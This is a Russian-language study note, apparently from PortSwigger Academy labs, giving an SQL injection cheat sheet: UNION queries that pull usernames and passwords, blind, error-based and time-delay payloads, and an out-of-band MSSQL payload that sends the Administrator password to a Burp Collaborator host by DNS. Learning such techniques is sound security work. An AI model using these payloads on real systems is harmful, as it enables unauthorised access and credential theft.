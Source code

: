 
# 1. Обнаружение уязвимости

- **Символ одинарной кавычки** `'` и искать ошибки или другие аномалии.

- Некоторый синтаксис, специфичный для SQL, который оценивает базовое (исходное) значение точки входа и другое значение и ищет систематические различия в ответах приложения.

- **Булевы условия**, такие как `OR 1=1` и `OR 1=2`и найдите различия в ответах приложения. Использовать url кодировку 

- **Полезные нагрузки**, предназначенные для запуска временных задержек при выполнении SQL-запроса и поиска различий во времени, необходимом для ответа.

- Полезные нагрузки [[OAST, SAST, SCA и DAST|OAST]], предназначенные для запуска внеполосного сетевого взаимодействия при выполнении в рамках SQL-запроса и отслеживания любых результирующих взаимодействий.

# 2. SQL-инъекция UNION-атак

- Определение количества необходимых столбцов `' UNION SELECT NULL,NULL--`
- Поиск столбцов с полезным типом данных `' UNION SELECT 'a',NULL,NULL,NULL--` 
- Получение нескольких значений в одном столбце `' UNION SELECT username || '~' || password FROM users--`

# 3. Синтаксис, специфичный для базы данных

- [Шпаргалка по инъекциям](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# 4. Исследование базы данных при атаках с использованием SQL-инъекций

- Майкрософт, MySQL `SELECT @@version`
- Oracle SELECT * FROM v$version`
- PostgreSQL `SELECT version()`

# 5. Слепая SQL-инъекция

- Вариант поиска/проверки `' AND '1'='1` и `' AND '1'='2`
- Использование слепой SQL-инъекции путем запуска условных ответов
```
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
```

### 5.1 Инъекция на основе ошибок
 
 - Извлечение конфиденциальных данных с помощью подробных сообщений об ошибках SQL `AND CAST((SELECT 1) as int)` 

### 5.2 Инъекция за счет задержек времени

- `'; SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END--` - вызывает задержку в 2 секунды, поскольку условие `1=1` это правда (url coder)

### 5.3 Использование слепого внедрения SQL с использованием внеполосных методов (OAST)

- `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`  -  заставляет базу данных выполнить поиск по dns.
```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```


